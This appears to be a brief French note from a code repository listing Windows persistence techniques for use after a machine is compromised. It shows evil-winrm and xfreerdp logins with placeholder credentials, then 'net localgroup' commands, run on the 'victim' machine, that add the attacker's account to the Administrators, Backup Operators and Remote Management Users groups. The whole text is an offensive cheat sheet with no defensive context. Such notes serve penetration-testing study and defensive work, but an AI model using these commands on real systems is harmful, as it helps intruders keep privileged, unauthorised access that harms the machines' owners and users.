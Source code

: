 # Windows
Quelques techniques de persistence sur windows

## Commandes

```
evil-winrm -i <IP> -u MyUser -p MyPassword
xfreerdp /u:MyUser /p:MyPassword /v:<IP> +clipboard
```
## Sur la machine [victime]
```
net localgroup administrators MyUser /add
net localgroup "Backup Operators" MyUser /add
net localgroup "Remote Management Users" MyUser /add
```
